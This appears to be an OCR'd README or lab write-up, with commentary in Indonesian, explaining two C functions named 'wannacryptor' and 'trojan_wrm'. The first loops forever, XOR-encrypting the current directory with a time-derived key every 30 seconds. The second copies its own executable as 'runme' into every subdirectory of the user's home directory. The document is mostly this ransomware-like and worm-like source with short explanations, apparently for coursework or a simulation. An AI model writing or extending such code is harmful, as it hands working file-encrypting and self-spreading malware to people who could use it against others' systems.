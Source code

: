   Wannacryptor
  ```bash
  void wannacryptor() {
    prctl(PR_SET_NAME, "wannacryptor");
    while (1) {
        unsigned char key = (unsigned char)(time(NULL) & 0xFF);
        char cwd[256];
        getcwd(cwd, sizeof(cwd));
        encrypt_directory(cwd, key);
        sleep(30);
    }
  }
   ```
  - Mendapatkan direktori saat ini menggunakan `getcwd()`.

- Menggunakan key XOR sederhana yang berasal dari `time()` saat ini.

- Memanggil `encrypt_directory()` untuk mengenkripsi secara rekursif.

- Tidur selama 30 detik sebelum mengulang.
  
##trojan.wrm
```bash
void trojan_wrm() {
    prctl(PR_SET_NAME, "trojan.wrm");
    char *binary_path = "/proc/self/exe";
    const char *home = getenv("HOME");
    if (!home) return;

    while (1) {
        DIR *dir = opendir(home);
        if (!dir) return;

        struct dirent *entry;
        while ((entry = readdir(dir)) != NULL) {
            if (entry->d_type == DT_DIR && strcmp(entry->d_name, ".") != 0 && strcmp(entry->d_name, "..") != 0) {
                char target_path[512];
                snprintf(target_path, sizeof(target_path), "%s/%s/runme", home, entry->d_name);

                int src_fd = open(binary_path, O_RDONLY);
                int dst_fd = open(target_path, O_WRONLY | O_CREAT | O_TRUNC, 0755);

                if (src_fd >= 0 && dst_fd >= 0) {
                    char buffer[4096];
                    ssize_t n;
                    while ((n = read(src_fd, buffer, sizeof(buffer))) > 0) {
                        write(dst_fd, buffer, n);
                    }
                    close(src_fd);
                    close(dst_fd);
                }
            }
        }
        closedir(dir);
        sleep(30);
    }
}
```
- Mendapatkan jalur binernya sendiri `(/proc/self/exe)`.
- Melakukan pengulangan melalui direktori `$HOME`.
- Untuk setiap subdirektori, membuat salinan bernama `runme`.
